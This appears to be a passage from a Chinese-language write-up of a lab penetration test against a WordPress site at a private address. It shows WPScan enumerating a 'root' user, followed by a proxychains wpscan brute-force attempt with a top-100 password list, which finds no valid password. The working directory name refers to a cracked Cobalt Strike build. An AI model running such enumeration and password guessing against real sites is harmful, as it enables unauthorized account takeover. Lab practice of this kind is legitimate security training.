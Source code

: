 ```bash
         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
[+] URL: http://192.168.153.129/ [192.168.153.129]
[+] Started: Sat Jul  2 09:45:48 2022

[proxychains] Strict chain  ...  127.0.0.1:45483  ...  192.168.153.129:80  ...  OK
Interesting Finding(s):

...
[i] User(s) Identified:

[+] root
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.153.129/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Sitemap (Aggressive Detection)
 |   - http://192.168.153.129/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jul  2 09:46:30 2022
[+] Requests Done: 36
[+] Cached Requests: 25
[+] Data Sent: 9.471 KB
[+] Data Received: 558.291 KB
[+] Memory used: 205.469 MB
[+] Elapsed time: 00:00:42
```

+ 通过上面的数据发现只有一个root的用户应该是管理员我们使用`wpscan`暴力破解看看。

```bash
┌──(kali㉿kali)-[~/Desktop/CS4.4完全汉化版破解]
└─$ proxychains4 wpscan --url http://192.168.153.129 -U root -P top100.txt
...
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
Trying root / 333333 Time: 00:04:30 <=====================================================================================> (99 / 99) 100.00% Time: 00:04:30

[i] No Valid Passwords Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Jul  2 10:20:15 2022
[+] Requests Done: 239
[+] Cached Requests: 41
[+] Data Sent: 87.511 KB
[+] Data Received: 220.998 KB
[+] Memory used: 229.191 MB
[+] Elapsed time: 00:06:39
```

